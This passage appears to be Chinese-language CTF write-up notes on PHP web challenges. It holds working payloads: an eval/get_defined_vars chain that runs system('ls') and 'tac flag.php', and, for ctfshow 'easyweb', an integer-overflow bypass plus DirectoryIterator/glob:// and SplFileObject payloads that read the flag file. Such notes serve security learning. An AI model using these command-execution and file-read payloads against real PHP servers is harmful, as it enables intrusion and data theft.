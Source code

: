 将数组的键名和键值对调，然后把他单独获取出来再eval
这里要把执行的参数第一个传~

```
?a=system('ls');&code=eval(array_rand(array_flip(current(get_defined_vars()))));

?a=system('tac flag.php');&code=eval(array_rand(array_flip(current(get_defined_vars()))));
```



## ctfshow-卷王杯

### easyweb

[php绕过数组赋值 - CSDN](https://www.csdn.net/tags/OtDaEgzsMzg4ODQtYmxvZwO0O0OO0O0O.html)

[PHP 原生类在 CTF 中的利用 - 安全客，安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/238482#h3-22)

```php
<?php
error_reporting(0);
if(isset($_GET['source'])){
    highlight_file(__FILE__);
    echo "\$flag_filename = 'flag'.md5(???).'php';";
    die();
}
if(isset($_POST['a']) && isset($_POST['b']) && isset($_POST['c'])){
    $c = $_POST['c'];
    $count[++$c] = 1;
    if($count[] = 1) {
        $count[++$c] = 1;
        print_r($count);
        die();
    }else{
        $a = $_POST['a'];
        $b = $_POST['b'];
        echo new $a($b);
    }
}
?>
```

利用数组越界报错的漏洞绕过die()：

利用原生类DirectoryIterator搭配伪协议glob找到flag文件，这里记得用通配符，他本身有个flag.php迷惑的

```
a=DirectoryIterator&b=glob://./flag?*.php&c=9223372036854775806
```

再利用原生类SplFileObject读文件即可

```
a=SplFileObject&b=flag56ea8b83122449e814e0fd7bfb5f220a.php&c=9223372036854775806
```
